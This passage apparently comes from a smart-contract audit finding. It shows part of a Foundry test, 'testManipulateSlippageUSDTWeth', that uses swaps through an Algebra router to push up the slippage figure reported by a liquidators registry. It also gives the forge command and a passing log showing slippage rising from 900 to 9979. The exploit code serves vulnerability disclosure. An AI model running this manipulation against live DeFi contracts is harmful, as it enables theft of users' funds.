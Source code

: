 ```solidity
        0 // limitSqrtPrice
      );
      ISwapRouter(AlgrebraSwapRouter).exactInputSingle(params);
      uint256 inputAmount = 10e18; 
      IERC20Upgradeable(Weth).approve(address(liquidatorsRegistry_), inputAmount);
      uint256 slippage = LiquidatorsRegistryExtension(liquidatorsRegistry_).getSlippage(IERC20Upgradeable(Weth), IERC20Upgradeable(USDT));
      console.log("Slippage: ", slippage);
      LiquidatorsRegistryExtension(liquidatorsRegistry_).amountOutAndSlippageOfSwap(IERC20Upgradeable(Weth),inputAmount,IERC20Upgradeable(USDT)); 
      slippage = LiquidatorsRegistryExtension(liquidatorsRegistry_).getSlippage(IERC20Upgradeable(Weth), IERC20Upgradeable(USDT));
      console.log("Slippage: ", slippage);
      uint256 USDT_balance = IERC20Upgradeable(USDT).balanceOf(attacker);
      IERC20Upgradeable(USDT).approve(address(AlgrebraSwapRouter), USDT_balance);
      params = ISwapRouter.ExactInputSingleParams(
        USDT,
        Weth,
        attacker,
        block.timestamp,
        USDT_balance,
        0, // amountOutMinimum
        0 // limitSqrtPrice
      );
      ISwapRouter(AlgrebraSwapRouter).exactInputSingle(params);
      console.log("Weth balance of this contract: ", IERC20Upgradeable(Weth).balanceOf(attacker));
      console.log("USDT balance of this contract: ", IERC20Upgradeable(USDT).balanceOf(attacker));

    }
```

To run test: 
```

forge test --match-test testManipulateSlippageUSDTWeth --match-contract ModeWethUSDTLeveredPositionTest -vvvvvv

```

Test log: 
```

[PASS] testManipulateSlippageUSDTWeth() (gas: 2191379)
Logs:
  max ratio: 1885965991544220436
  min ratio: 1001765749757541381
  Weth balance of this contract:  100000000000000000000
  USDT balance of this contract:  0
  Slippage:  900
  Slippage:  9979
  Weth balance of this contract:  99608291142735463429
  USDT balance of this contract:  0

```
